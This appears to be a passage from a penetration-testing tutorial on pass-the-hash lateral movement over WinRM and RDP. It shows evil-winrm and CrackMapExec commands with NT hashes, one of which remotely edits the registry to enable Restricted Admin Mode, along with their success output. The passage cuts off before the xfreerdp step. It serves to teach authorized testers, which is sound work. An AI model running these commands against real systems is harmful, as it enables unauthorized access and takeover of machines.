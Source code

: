 WinRM
What: The short of it is that Windows Remote Management (WinRM) is another way to remotely manage computers aside from WMI and other similar protocols and uses a different set of ports.  WinRM uses either port 5985 (HTTP) or 5986 (HTTPS).

Why: Sometimes you will find that SMB is not open, or that some endpoint protection is preventing you from using your standard toolset.

How: This can be done using a variety of tools including CrackMapExec, but right now I want to focus on evil-winrm as it contains a lot of other features. Passing the hash with evil-winrm is easy, and it looks like so:

1
2
3
4
5
6
7
ruby evil-winrm.rb -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
 
Evil-WinRM shell v2.3
 
Info: Establishing connection to remote endpoint
 
*Evil-WinRM* PS C:\Users\user\Documents>
Resources:

https://pentestlab.blog/2018/05/15/lateral-movement-winrm/
https://bohops.com/2020/05/12/ws-management-com-another-approach-for-winrm-lateral-movement/

RDP
What: Remote desktop is a program or an operating system feature that allows a user to connect to a computer in another location, see that computer’s desktop and interact with it as if it were local.

Why: Often times during a penetration test you may want to access software installed on a user’s system that is only available through a graphic interface.  This may be a password manager that can be exported easily via the GUI, or other software that can perform actions that would be impossible/burdensome to use otherwise.  You may want to pass an NT hash of a user who couldn’t be cracked and take over their session.

How: You can pass the hash using xfreerdp.  There is one important caveat however, and that is that this is only possible when the system has Restricted Admin Mode enabled.  If this is not enabled and you try to PTH, you will get an error stating that “Account Restrictions are preventing this user from signing in.”  Restricted Admin Mode is disabled by default.  The good news is, if you have any level of admin access to the system and access to SMB/WinRM/etc, you can enable this feature remotely.

1
2
3
4
5
cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
SMB 10.0.0.200 445 DESKTOP [*] Windows 10.0 Build 18362 x64 (name:DESKTOP) (domain:DESKTOP) (signing:False) (SMBv1:False)
SMB 10.0.0.200 445 DESKTOP [+] DESKTOP\Administrator 8846F7EAEE8FB117AD06BDD830B7586C (Pwn3d!)
SMB 10.0.0.200 445 DESKTOP [+] Executed command
SMB 10.0.0.200 445 DESKTOP The operation completed successfully.
Once the registry key is set, you can then pass the hash with xfreerdp:
